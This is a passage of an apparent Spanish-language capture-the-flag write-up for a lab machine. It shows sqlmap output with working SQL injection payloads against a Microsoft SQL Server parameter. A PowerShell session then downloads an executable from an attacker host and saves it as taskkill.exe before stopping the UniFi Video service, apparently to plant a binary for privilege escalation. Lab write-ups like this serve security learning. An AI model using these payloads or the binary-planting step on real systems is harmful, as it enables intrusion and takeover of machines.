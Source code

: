 ``` text
[11:56:58] [WARNING] combined UNION/error-based SQL injection case found on column 4. sqlmap will try to find another column with better characteristics
[11:56:59] [WARNING] combined UNION/error-based SQL injection case found on column 1. sqlmap will try to find another column with better characteristics
[11:57:00] [WARNING] combined UNION/error-based SQL injection case found on column 20. sqlmap will try to find another column with better characteristics
GET parameter 'ProductSubCategoryId' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: ProductSubCategoryId (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ProductSubCategoryId=18 AND 9242=9242

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: ProductSubCategoryId=18 AND 6303 IN (SELECT (CHAR(113)+CHAR(113)+CHAR(113)+CHAR(112)+CHAR(113)+(SELECT (CASE WHEN (6303=6303) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(98)+CHAR(113)+CHAR(113)))

    Type: inline query
    Title: Microsoft SQL Server/Sybase inline queries
    Payload: ProductSubCategoryId=(SELECT CHAR(113)+CHAR(113)+CHAR(113)+CHAR(112)+CHAR(113)+(SELECT (CASE WHEN (7727=7727) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(98)+CHAR(113)+CHAR(113))

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: ProductSubCategoryId=18;WAITFOR DELAY '0:0:5'--

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: ProductSubCategoryId=18 WAITFOR DELAY '0:0:5'
---
[11:57:43] [INFO] testing Microsoft SQL Server
[11:57:43] [INFO] confirming Microsoft SQL Server
[11:57:45] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 10 or 2016
web application technology: ASP.NET 4.0.30319, ASP.NET, Microsoft IIS 10.0
back-end DBMS: Microsoft SQL Server 2016
[11:57:45] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 49 times
[11:57:45] [INFO] fetched data logged to text files under '/home/xbytemx/.sqlmap/output/10.10.10.104'

[*] ending @ 11:57:45 /2019-02-15/
```

El resumen es parámetro ProductSubCategoryId es susceptible a SQLi, la DB es Microsoft SQL Server 2016, y tenemos bastantes puntos de inyección como se ve en la parte superior.


[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService